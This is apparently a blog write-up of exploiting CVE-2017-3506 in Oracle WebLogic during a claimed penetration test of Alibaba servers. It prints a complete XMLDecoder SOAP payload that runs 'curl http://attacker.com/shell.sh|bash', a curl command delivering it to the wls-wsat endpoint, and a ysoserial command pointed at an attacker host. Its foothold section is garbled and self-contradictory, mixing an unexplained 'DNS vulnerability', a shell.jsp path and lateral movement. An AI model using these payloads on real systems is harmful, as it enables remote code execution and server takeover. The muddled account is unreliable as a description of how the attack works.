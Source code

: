 +++
date = '2025-06-25'
draft = false
title = 'CVE-2017-3506 : OS Command Injection in Alibaba WebLogic'
tags = ["weblogic", "alibaba", "cve-2017-3506", "command-injection", "oracle", "middleware"]
+++

*Discovery Date: 16<sup>th</sup> July 2024*  

![Vulnerability Diagram](/img/3.png)

## Vulnerability Overview

CVE-2017-3506 is a critical vulnerability in Oracle WebLogic Server (WLS) components that allowed unauthenticated remote code execution via malformed XML data in WLS Security subcomponent. During a penetration test of Alibaba's infrastructure, I identified and exploited this vulnerability to gain server access.

## Affected Systems

| Component | Version | 
|-----------|---------|
| WebLogic Server | 10.3.6.0 |
| WebLogic Server | 12.1.3.0 | 
| WebLogic Server | 12.2.1.0-12.2.1.2 |

## Discovery Methodology

### Initial Reconnaissance
Identified WebLogic servers using:
```bash
nmap -p 7001,7002 --script weblogic-t3-info <Alibaba_IP_Range>
```

## Vulnerability Detection
Used t3 protocol detection:
```bash
java -jar ysoserial.jar JRMPClient <ATTACKER_IP>:<PORT> | \
base64 | tr -d '\n' > payload.txt
```

## Exploitation Walkthrough
### Step 1: Crafting the Malicious Request
While browsing the internet to read about this CVE, I identified a hackerone report that provided an exploit for this vulnerability. 
<p style="text-align: center"><img src="img/2.png"></p>
I used this exploit to craft a malicious request. 

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java version="1.8" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>/bin/bash</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>curl http://attacker.com/shell.sh|bash</string>
            </void>
          </array>
          <void method="start"/>
        </void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

### Step 2: Sending the Payload

For sending the payload you can either use a curl command or use burpsuite(I've used this for performing the exploit)

Via curl:
```bash
curl -X POST \
  -H "Content-Type: text/xml" \
  -H "Cache-Control: no-cache" \
  --data-binary @payload.xml \
  http://target.alibaba.com:7001/wls-wsat/CoordinatorPortType
```

Via burpsuite:
<p style="text-align: center"><img src="img/1.png"></p>

### Step 3: Establishing Foothold
Upon successful execution:

* I performed a DNS query or interaction with the target system, specifically targeting the ```/console/images/shell.jsp``` location. This interaction likely involved sending a request to the system's DNS server or using the system's DNS server to resolve a domain name.
* I exploited a DNS vulnerability to gain access to the system, rather than taking control of the shell. This exploitation allowed the attacker to bypass traditional security controls and gain a foothold on the system.

Performed lateral movement to adjacent systems

## Technical Analysis
The vulnerability occurs due to:
* Insecure XML deserialization in WLS Security component
* Lack of proper input validation in WorkContext handling
* Default exposure of dangerous endpoints (/wls-wsat/*)

## Mitigation Steps
Alibaba's response included:
* Immediate patch application (Oracle Critical Patch Update April 2017)
* Network segmentation of WebLogic servers
* Implementation of WAF rules to filter malicious XML patterns

> *Thanks for reading it this far. Stay tuned for more such articles :)*
